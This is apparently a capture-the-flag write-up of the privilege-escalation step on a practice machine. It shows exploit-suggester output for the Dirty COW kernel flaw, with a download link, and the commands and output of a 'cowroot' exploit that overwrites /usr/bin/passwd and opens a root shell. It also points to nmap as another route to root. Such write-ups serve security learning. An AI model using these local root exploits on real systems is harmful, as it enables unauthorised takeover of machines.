 #### PrivEsc

```bash
robot@linux:~$ id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$
```

okay so got robot user.
since the kernel version was old i ran exploit suggester to find out exploit (from linpeas)

```bash
[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

robot@linux:/tmp$ chmod 777 cowroot
robot@linux:/tmp$ ./cowroot
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 47032
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
root@linux:/tmp#
```

so i rooted using dirty cow but as we can see nmap is also there.

so rooting through nmap is also possible.

<https://gtfobins.github.io/gtfobins/nmap/>


### Reviews

Good Machine. I will really rate it a bit CTFy. But yeah i learned few things from this one. Try it out
